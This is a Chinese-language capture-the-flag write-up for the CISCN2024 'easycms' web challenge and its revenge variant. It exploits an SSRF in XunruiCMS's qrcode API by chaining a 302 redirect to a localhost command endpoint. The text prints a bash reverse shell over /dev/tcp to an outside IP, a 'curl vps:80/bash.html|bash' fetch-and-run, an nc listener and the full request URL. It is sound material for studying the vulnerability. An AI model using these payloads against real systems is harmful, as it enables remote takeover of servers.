


# CISCN2024-WEB-easycms

首先看到题目提示

```
简单的cms，可以扫扫看？ 提示1： /flag.php： 

if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
   echo "Just input 'cmd' From 127.0.0.1";
   return;
}else{
   system($_GET['cmd']);
}
提示2：github找一下源码?
敏感目录：
/flag.php
/install.php
/Readme.txt
/Readme.txt是乱码，在线恢复一下
```

乱码修复网站：https://wrtools.top/coderepair.php



由hint可以知道，flag.php存在ssrf和命令执行漏洞，可以直接getshell。源码在github上。

在官网上找到迅睿CMS已知漏洞公示，发现存在一个已知的ssrf的漏洞。



我们将源码下载下来：https://github.com/dayrui/xunruicms

根据漏洞公示中的信息定位到源码路径`xunruicms-master\dayrui\Fcms\Control\Api\Api.php`的`qrcode`函数

```
    public function qrcode() {

        $value = urldecode(\Phpcmf\Service::L('input')->get('text'));
        $thumb = urldecode(\Phpcmf\Service::L('input')->get('thumb'));
        $matrixPointSize = (int)\Phpcmf\Service::L('input')->get('size');
        $errorCorrectionLevel = dr_safe_replace(\Phpcmf\Service::L('input')->get('level'));

        //生成二维码图片
        require_once CMSPATH.'Library/Phpqrcode.php';
        $file = WRITEPATH.'file/qrcode-'.md5($value.$thumb.$matrixPointSize.$errorCorrectionLevel).'-qrcode.png';
        if (!IS_DEV && is_file($file)) {
            $QR = imagecreatefrompng($file);
        } else {
            \QRcode::png($value, $file, $errorCorrectionLevel, $matrixPointSize, 3);
            if (!is_file($file)) {
                exit('二维码生成失败');
            }
            $QR = imagecreatefromstring(file_get_contents($file));
            if ($thumb) {
                if (stripos($thumb, 'phar://') !== false) {
                    exit('图片地址不规范');
                } elseif (filter_var($thumb, FILTER_VALIDATE_URL) !== false || file_exists($thumb)) {
                    $img = getimagesize($thumb);
                    if (!$img) {
                        exit('此图片不是一张可用的图片');
                    }
                    $code = dr_catcher_data($thumb);
                    if (!$code) {
                        exit('图片参数不规范');
                    }
                    $logo = imagecreatefromstring($code);
                    $QR_width = imagesx($QR);//二维码图片宽度
                    $logo_width = imagesx($logo);//logo图片宽度
                    $logo_height = imagesy($logo);//logo图片高度
                    $logo_qr_width = $QR_width / 4;
                    $scale = $logo_width/$logo_qr_width;
                    $logo_qr_height = $logo_height/$scale;
                    $from_width = ($QR_width - $logo_qr_width) / 2;
                    //重新组合图片并调整大小
                    imagecopyresampled($QR, $logo, (int)$from_width, (int)$from_width, 0, 0, (int)$logo_qr_width, (int)$logo_qr_height, (int)$logo_width, (int)$logo_height);
                    imagepng($QR, $file);
                }
```

---

发现thumb参数可控。

```
$code = dr_catcher_data($thumb);
if (!$code) 
{
     xit('图片参数不规范');
}
```

然后继续定位到xunruicms-master\dayrui\Fcms\Core\Helper.php

```
function dr_catcher_data($url, $timeout = 0, $is_log = true, $ct = 0) {

    if (!$url) {
        return '';
    }

    // 获取本地文件
    if (strpos($url, 'file://')  === 0) {
        return file_get_contents($url);
    } elseif (strpos($url, '/')  === 0 && is_file(WEBPATH.$url)) {
        return file_get_contents(WEBPATH.$url);
    } elseif (!dr_is_url($url)) {
        if (CI_DEBUG && $is_log) {
            log_message('error', '获取远程数据失败['.$url.']：地址前缀要求是http开头');
        }
        return '';
    }

    // curl模式
    if (function_exists('curl_init')) {
        $ch = curl_init($url);
        if (substr($url, 0, 8) == "https://") {
            curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false); // 跳过证书检查
            curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, true); // 从证书中检查SSL加密算法是否存在
        }
        if ($ct) {
            curl_setopt($ch, CURLOPT_HTTPHEADER, array(
                'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:40.0)' . 'Gecko/20100101 Firefox/40.0',
                'Accept: */*',
                'X-Requested-With: XMLHttpRequest',
                'Referer: '.$url,
                'Accept-Language: pt-BR,en-US;q=0.7,en;q=0.3',
            ));
            curl_setopt($ch, CURLOPT_USERAGENT,'Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.1.13) Gecko/20080311 Firefox/2.0.0.13');
        }
        ///
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1 );
        // 最大执行时间
        $timeout && curl_setopt($ch, CURLOPT_TIMEOUT, $timeout);
        $data = curl_exec($ch);
        $code = curl_getinfo($ch,CURLINFO_HTTP_CODE);
        $errno = curl_errno($ch);
        if (CI_DEBUG && $errno && $is_log) {
            log_message('error', '获取远程数据失败['.$url.']：（'.$errno.'）'.curl_error($ch));
        }
        curl_close($ch);
```

```
function dr_catcher_data($url, $timeout = 0, $is_log = true, $ct = 0)

$data = curl_exec($ch);
```

dr_catcher_data函数存在SSRF

由于没有回显所以我们只能反弹shell或者外带。

这里使用302跳转，在vps上起一个302.php

```
<?php
    //header("HTTP/1.1 302 found"); 
    //header("Location:http://127.0.0.1:1337/flag");
    //header("Location:file:///etc/passwd");
    header("Location:http://127.0.0.1/flag.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F120.46.41.173%2F9023%200%3E%261%22");
    exit();
?>

# bash -c "bash -i >& /dev/tcp/47.98.226.0/6666 0>&1"
```

或者起一个flask302跳转

```
from flask import Flask, redirect
​
app = Flask(__name__)
​
@app.route('/')
def index():
    return redirect("http://127.0.0.1/flag.php?cmd=curl vps:80/bash.html|bash")
​
​
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=21000)
```

注意：记得url编码

vps开启监听

```
nc -lvp 6666
```

然后构造payload：

```
/index.php?s=api&c=api&m=qrcode&text=111&size=111&level=1&thumb=http://47.98.226.0/ssrf/302.php
```

然后成功反弹shell

---

### easycms_revenge

和上题一样，改一下302.php的内容

直接在原有的代码上加一个GIF89a

用php，要加个html标签

```
GIF89a
<html>
<?php
header("Location:http://127.0.0.1/flag.php?cmd=xxxx");
exit();
?>
</html>
```

也是记得url编码
